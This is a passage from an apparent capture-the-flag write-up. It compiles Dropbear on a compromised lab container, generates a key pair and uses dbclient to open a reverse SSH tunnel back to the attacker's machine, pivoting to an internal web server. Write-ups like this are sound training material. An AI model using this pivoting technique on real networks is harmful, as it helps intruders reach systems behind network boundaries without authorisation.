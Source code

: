 Now compile the software (the container has gcc and the minimum libraries to build this):

```

# cd dropbear-2018.76/                     
# ./configure && make                  
checking for gcc... gcc                      
checking whether the C compiler works... yes
checking for C compiler default output file name... a.out
checking for suffix of executables...    
checking whether we are cross compiling... no
...[snip]...

```

#### Generate Key Pair

Next I’ll generate a key pair to use with `dropbearkey`. It’s a simple program with [only a few options](https://linux.die.net/man/8/dropbearkey). I’ll use `-t rsa` to make an RSA key pair, and `-f .k` to name the key file `.k`:

```

# ./dropbearkey -t rsa -f .k
Generating 2048 bit rsa key, this may take a while...
Public key portion is:
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCFI9K2O4PVLSLLIJw2ExqYHtPUQTrcn+GKR3BRaD8Th+5CYIPMRQF8MK29tlgjdZh5MSf5RB4tsm523hMp6879tvi0Bzc0afZ8FKfaVjTwWsG/cbNFZzi4W5PpwsLkh9vbBgXhbPfdmMdz2uLZrsmPKVKXXkg/URz9vhiQelJAL0PcysIBh3c9CkJfNzzNJ2DHxY/OugnhQlObmLfOzkucP2DtTAZjYYCpc8cByzKS7vgo8rZLscf7QrN3LLKr8SFmjSnEcqxvIC1cVOpRju3kmfJxNY4ebcod1DaQtRYXC+K2byNwf5y3z3ahhW8dWJVLEcPH0bueuRVnYk3wfrjx root@nodered
Fingerprint: sha1!! 78:53:6e:77:d8:da:ef:43:a7:c8:97:de:3c:a0:c4:d4:80:7d:f3:ab

```

Now I’ll put this public key into the authorized key file for dummy on my kali box. While this key is in that file, anyone who has the private key (`.k`) can ssh into my box, so I’ll want to leave this in place only long enough to get the tunnels set up.

#### Create Tunnel

Now I’ll use DropBear’s `dbclient` to ssh back, creating a tunnel to access the web page on www:

```

# ./dbclient -i .k -f -N -R 8888:172.19.0.4:80 dummy@10.10.14.14

```

The options I used are:
- `-i .k` - Use the keyfile I generated earlier
- `-f` - run ssh in the background
- `-N` - Done request a shell or run and commands
- `-R 8888:172.19.0.4:80` - listen on port 8888 on my kali host, and forward and traffic to 172.19.0.4 port 80. It’s important to note that my dummy user doesn’t have the privilege necessary to listen on a low port, like 80.

Now I can access the website on www:

![1547726954948](https://0xdfimages.gitlab.io/img/1547726954948.png)